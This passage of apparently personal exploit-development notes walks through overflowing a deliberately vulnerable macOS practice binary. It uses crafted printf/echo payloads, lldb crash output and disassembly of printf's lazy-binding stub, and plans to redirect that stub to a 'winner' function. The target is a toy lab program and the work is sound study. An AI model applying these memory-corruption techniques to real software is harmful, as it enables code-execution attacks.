 ```
canary   false
class    MACH064
endian   little
```
Using `printf`:
```
B=$(printf "AAAABBBBCCCCDDDDEEEEFFFF\x50\x0e\x00\x00")
C=$(printf "\x30\x0e\x00\x00GGGGGGGG")
lldb hitme $B $C
```
Using `echo` (and remembering to avoid passing a `newline`):
```
B=$(echo -ne "AAAABBBBCCCCDDDDEEEEFFFF\xff\xff\xff\xff")
C=$(echo -ne "\x40\x0e\x00\x00GGGGGGGG")
```
`lldb` can't display characters, trust what you typed.  Don't believe `settings show target.run-args`
```
(lldb) settings show target.run-args
target.run-args (array of strings) =
  [0]: "AAAABBBBCCCCDDDDEEEEFFFFP"
  [1]: "0"
```
##### Overflow working
Now you can see my string was passed as the `address`.
```
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0xffffffff)
    frame #0: 0x00007fff5b8cdd86 libsystem_platform.dylib` _platform_memmove$VARIANT$Haswell  + 198
libsystem_platform.dylib`_platform_memmove$VARIANT$Haswell:
```
##### Where next?
Ok, to get this working we need to into alternative topics.  `lazy loading`, `__stub_helper` and the `Dynamic Linker`.

After that, I will overwrite the address the `Dynamic Linker` passes back to my code, when the `printf` call was made [ lazily ].   I will overwrite the address with the `winner` address.

```
settings set target.x86-disassembly-flavor intel
(lldb) disassemble --name main

(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=2, address=0x100000e30)
    frame #3: 0x0000000100000f0a c_playground_exploits` main(argc=3, argv=0x00007ffeefbff898)  + 170 at main.c:30

Or by address:

(lldb) dis -s 0x0000000100000f0a
c_playground_exploits`main:
    0x100000f0a <+170>: lea    rdi, [rip + 0x87]         ; "and that's a wrap folks!\n"
    0x100000f11 <+177>: mov    qword ptr [rbp - 0x38], rax
    0x100000f15 <+181>: mov    al, 0x0
    0x100000f17 <+183>: call   0x100000f38               ; symbol stub for: printf


(lldb) image lookup --address 0x100000f38
      Address: c_playground_exploits[0x0000000100000f38] (c_playground_exploits.__TEXT.__stubs + 12)
      Summary: c_playground_exploits`symbol stub for: printf

(lldb) disas -s 0x0000000100000f38
c_playground_exploits`printf:
```

  [295b9bea]: https://www.youtube.com/watch?v=TfJrU95q1J4&t=339s "video"
  [0]: "AAAA"